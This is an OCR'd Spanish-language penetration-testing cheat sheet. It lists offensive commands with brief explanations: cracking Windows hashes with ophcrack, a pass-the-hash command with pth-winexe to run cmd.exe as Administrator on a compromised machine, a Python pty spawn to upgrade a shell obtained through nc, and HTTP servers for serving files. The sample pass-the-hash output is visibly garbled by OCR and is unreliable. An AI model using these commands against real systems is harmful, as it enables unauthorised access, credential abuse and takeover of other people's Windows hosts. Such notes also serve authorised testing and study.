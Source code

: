 
### Ophcrack 
crackea contraseñas con rainbow table 

```bash
sudo ophcrack-cli -d /mnt/c/z/ophcrack_xp_tables -t xp_special -f hash -o dump -u 
```
 
### Perl 
Ejecuta código pl 
```bash
perl -ne 'print unless /([a-z]).*\1/' dict.txt > outfile.txt 
```
sirve para extraer de un diccionario las palabras que no repiten caracteres 

### pth-winexe 
Pass the Hash sirve para ejecutar comandos desde un linux sobre un equipo windows comprometido 

```bash
pth-winexe -U WorkGROUP/Administrator%<hashntlm> //<ipvictima> <comandodeseado>
```
(puede ser cmd.exe) 

Es necesario repertir el último hash. Ejemplo 

```bash
E_md4hash wrapper called. 
HASH PASS: Subst user supplied NTLM HASH. 
Microsoft Windows [Verstn 19.0. 14393] 
(c) 2016 Microsott Corporation. Todos Los derechos reservados. 
whoami 
s4vicorp\administrador pth-wtnexe -U s4vtcorp/Admtntstrador020ae267eY4d417tcteoet4gecbd4b33:92eae267e048417tcteeot49ecbd4b33 //192.168. let. 133 cmd 
```


### Python 
Para ejecutar .py 

```bash
python -c 'import pty; pty.spawn("/bin/sh")' 
```
 sirve para cargar consola una vez conectado por nc a un servidor. 

```bash
CTRL +Z 
stty raw -echo 
fg enter enter 
```

```bash
python -m SimpleHTTPServer 80
python3 -m http.server 8080 
```
sirve para levantar un servicio web simple con file dir. 

 